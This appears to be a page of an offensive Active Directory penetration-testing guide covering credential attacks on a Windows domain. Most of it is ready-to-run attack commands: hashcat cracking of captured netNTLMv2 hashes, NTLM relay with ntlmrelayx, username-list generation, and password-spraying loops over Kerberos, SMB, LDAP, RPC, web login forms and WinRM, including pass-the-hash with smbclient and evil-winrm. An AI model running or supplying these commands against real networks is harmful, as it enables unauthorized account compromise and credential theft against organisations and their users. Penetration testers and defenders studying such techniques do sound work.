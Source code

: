 Go to SMB shares, get information from RPC, use MITM and infect name resolution protocols - figure out the account mask. If, as part of a MITM attack, you received netNTLMv1 with the --lm key for the responder - use [crack.sh](https://crack.sh/get-cracking/) to restore pure NTLM for the user by sending NTHASH:responder_hash. If you got netNTLMv2, the only option is to brute-force:

```
hashcat -a 0 -m 5600 /tmp/hash /usr/share/wordlists/somelist.txt -w 4 -O
```

However, if you notice a missing SSP signature, use mass relay attacks with ntlmrelayx.py. In any case, it is necessary to generate a dictionary for domain logins in order to further attack **Password spray**. You can generate a dictionary using a ready-made list of popular surnames from git or Wikipedia. In any case, you can do the following:

```
while read LINE; do awk -vn=$LINE '{print n$0}' /tmp/last_names.txt; done < /tmp/first_name_letters.txt
```

The easiest way to perform this attack is through a utility for the Kerberos 88/tcp service:

```
./kerbrute_linux_amd64 passwordspray -d jaki.local --dc dc.jaki.local /tmp/users.txt 'somepassword'
```

However, any service that allows authentication is suitable for this attack:

```
**SMB**
crackmapexec smb 10.10.1.1 --shares -u /tmp/domain_users.txt -p 'somepassword'
while read line; do echo $line && smbclient -U JAKI\\$line%NTLM --pw-nt-hash -L 10.10.1.1 -m SMB3; done < /tmp/domain_users.txt > /tmp/log_smb.txt

**LDAP**
for i in $(cat /tmp /domain_users.txt); do ldapwhoami -h 10.10.1.1 -p 389 -D "cn=users,dc=jaki,dc=local" -w $i; done > /tmp/log_ldap.txt

**RPC**
while read line; do echo $line && python3 rpcdump.py scrm.local/$line:somepassword@jaki.local; done < /tmp/domain_users.txt > /tmp/log_smb.txt

**LDAP WEB Auth**
while read LINE; do sleep 1; echo $LINE "=" && curl -o /dev/null -s -w "%{num_headers}\ n" -X POST -d "username=$LINE&password=somepassword&submit=yes" -k https://somewebauth/login.php done < /tmp/domain_users.txt > /tmp/log_smb.txt

**WINRM**
while read line; do echo $line && ruby evil-winrm.rb -u $line -i 10.10.1.1 -H NTLM; done < /tmp/domain_users.txt > /tmp/log_smb.txt

```

or just use modules from **Metasploit Framework**. To use spray and avoid interactive login, generate NTLM:

```
echo -n "password" | iconv -t UTF-16LE | openssl md4
```
